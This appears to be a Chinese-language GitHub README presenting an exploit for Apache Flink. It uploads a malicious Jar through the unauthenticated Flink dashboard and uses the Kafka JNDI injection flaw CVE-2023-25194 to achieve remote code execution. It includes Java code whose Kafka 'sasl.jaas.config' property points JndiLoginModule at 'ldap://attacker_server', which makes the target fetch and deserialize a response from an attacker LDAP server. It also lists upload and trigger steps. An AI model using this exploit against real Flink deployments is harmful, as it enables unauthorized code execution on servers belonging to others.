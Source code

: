 # Flink-Kafka-Vul
**Apache Flink远程代码执行漏洞。**

Apache Flink Web UI 默认没有用户权限认证，攻击者可以直接上传恶意Jar包，通过指定Kafka数据源连接属性，利用Apache Kafka JNDI注入(CVE-2023-25194)漏洞[1]攻击Flink，最终实现远程代码执行。

[1] https://kafka.apache.org/cve-list#CVE-2023-25194

# 利用

## 编写不安全的Flink程序

指定Kafka连接参数，其中`sasl.jaas.config`属性设置为`"com.sun.security.auth.module.JndiLoginModule required user.provider.url="ldap://attacker_server" useFirstPass="true" serviceName="x" debug="true" group.provider.url="xxx";`，服务器将连接到攻击者的 LDAP 服务器并反序列化 LDAP 响应。
```
// 设置执行环境
final StreamExecutionEnvironment env = StreamExecutionEnvironment.getExecutionEnvironment();
// 配置 Kafka 连接属性
Properties properties = new Properties();
properties.setProperty("bootstrap.servers", "192.168.25.147:9092");
properties.setProperty("group.id", "flink-kafka-demo");
properties.setProperty("security.protocol", "SASL_PLAINTEXT");
properties.setProperty("sasl.mechanism", "PLAIN");
properties.setProperty("sasl.jaas.config", "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://attacker_server\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";");


FlinkKafkaConsumer<String> consumer = new FlinkKafkaConsumer("quickstart-events", new SimpleStringSchema(), properties);

// 从 Kafka 中读取数据
env.addSource(consumer).print();

// 执行程序
env.execute("Flink Kafka Demo");
```

## 触发漏洞

自行将Flink程序打包为Jar：

![](1.jpg)

在Apache Flink Dashboard上传恶意Jar，并提交任务：

![](2.jpg)

攻击者服务器：

![](3.jpg)

DNSlog服务器：

![4.jpg]




